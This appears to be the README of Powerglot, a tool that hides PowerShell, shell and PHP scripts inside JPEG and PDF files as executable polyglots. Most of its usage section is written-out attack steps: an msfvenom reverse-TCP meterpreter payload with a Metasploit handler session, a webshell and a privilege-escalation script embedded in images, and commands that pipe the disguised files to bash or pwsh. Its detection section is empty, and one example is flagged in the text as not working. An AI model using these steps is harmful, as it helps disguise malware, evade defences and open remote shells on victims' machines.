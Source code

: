 # Powerglot

Powerglot encodes several kind of scripts using polyglots, for example, offensive powershell scripts. It is not needed a loader to run the payload.

In red-team exercises or offensive tasks, masking of payloads is usually done by using steganography, especially to avoid network level protections, being one of the most common payloads scripts developed in powershell. Recent malware and APTs make use of some of these capabilities: APT32, APT37, Ursnif, Powload, LightNeuron/Turla, Platinum APT, Waterbug/Turla, Lokibot, The dukes (operation Ghost), Titanium, etc.

Powerglot is a multifunctional and multi-platform attack and defense tool based on polyglots. Powerglot allows to mask a script (powershell, shellscripting, php, ...) mainly in a digital image, although other file formats are in progress. Unlike the usual offensive tools or malware, Powerglot does not need any loader to execute the "information hidden", minimizing the noise on the target system.

PowerGlot has a clear utility in offensive tasks but it is also defined as a discovery and blue team tool. To our knowledge, it is the first general and complete open-source tool that allows to search for the presence of masked information with polyglots, information that could be useful to achieve persistence in a system or to hide malware (stego-malware, privilege escalation, lateral movement, reverse shell, etc.)

Features:
- Encode powershell/shell script/php/.. in a polyglot image. It is not necessay a loader to recover/execute the hidden information (payload). PowerGlot works with several formats. Mainly, JPEG format.

- Powerglot is a complete open-source tool to detect (malicious) polyglots, specially the result of some public tools as Truepolyglot or stegoSploit. We works in several formats: JPEG, PNG, GIF, BMP, ZIP, PDF, MP3, etc.

# Installation
```
# git clone https://github.com/mindcrypt/powerglot
# python3 powerglot
```
# Usage & Parameters

Some examples to hide payloads using polyglots with Powerglot
```
# Example 1 - Hiding a powershell/php/shell script in a JPEG image

# python3 powerglot.py -o meterpreter.ps1 cat.jpg cat-hidden1.jpg
# python3 powerglot.py -o webshell.php cat.jpg cat-hidden2.jpg
# python3 powerglot.py -o shell.sh cat.jpg cat-hidden3.jpg
```
```
# Example 2 - Hiding a shell script (linenum.sh) for privilege escalation "hidden" in a JPEG image

# python3 powerglot.py -o linenum.sh cat.jpg cat-linenum.jpg
# file cat-linenum.jpg (It is a valid JPEG file)
# feh cat-lineum.jpg (The image is properly showed in an image viewer)

# We can execute the script in several ways:

a) cat cat-linenum | bash
b) chmod +x cat-linenum.jpeg; ./cat-linenum.jpeg

```
```
# Example 3 - Encoding a powershell script in a JPEG image. For example, a meterpreter

# SERVER: Steps in the attacker  --------------------------> No FUNCIONAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

# Prepare the payload and configure the server to receive a meterpreter connection

#msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.0.2.15 LPORT=4444 -f psh > meterpreter.ps1

[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 123 bytes
Final size of psh file: 1341 bytes

# python3 ../powerglot.py -o meterpreter.ps1 cat.jpeg cat-ps.jpeg
# file cat-ps.jpeg 
cat-ps.jpeg: JPEG image data, JFIF standard 1.01, resolution (DPI), density 328x328, segment length 291, thumbnail 1x1, comment: "cmp3.9.27.0Lq4 0xa362b87a", baseline, precision 8, 1000x563, components 3

# msfconsole
msf5 > use exploit/multi/handler 
msf5 exploit(multi/handler) > set payload linux/
Display all 103 possibilities? (y or n)
msf5 exploit(multi/handler) > set payload linux/x86/meterpreter/reverse_tcp
payload => linux/x86/meterpreter/reverse_tcp
msf5 exploit(multi/handler) > set lhost 10.0.2.15                                                                 
lhost => 10.0.2.15                                                                                                
msf5 exploit(multi/handler) > set port 4444
port => 4444                                                                                                      
msf5 exploit(multi/handler) > exploit                                                                             
                                                                                                                  
[*] Started reverse TCP handler on 10.0.2.15:4444     

# LINUX VICTIM
# Download cat-o.jpg
# Execute 
# pwsh cat-o.jpg or cat cat-o.jpg | pwsd
```

```
# Example de polyglot in PDF



# Create b64.sh with your favourite payload
base64 Linenum.sh -w 0 > b64.sh
# Edit b64.sh
echo "code in b64.sh" | base64 -d | bash;

# python3 powerglot -o b64.sh sample.pdf test.pdf
# file test.pdf
# xpdf test.pdf

# Execute payload
# cat test.pdf | bash or chmod +x test.pdf; ./test.pdf



```
Some examples to detect polyglots in our filesystem
```
```

# Future work. Doing
- We are working to support different file formats for encoding information in polyglots. Currently, we support several techniques in JPEG and PDF.
- We are working to incorporate rules for the detection of polyglots in different formats. Currently, the presence of StegoSploit in JPEG files is detected.

# Author & license

This project has been developed by Dr. Alfonso Muñoz and Abraham Pasamar. The code is released under the GNU General Public License v3.


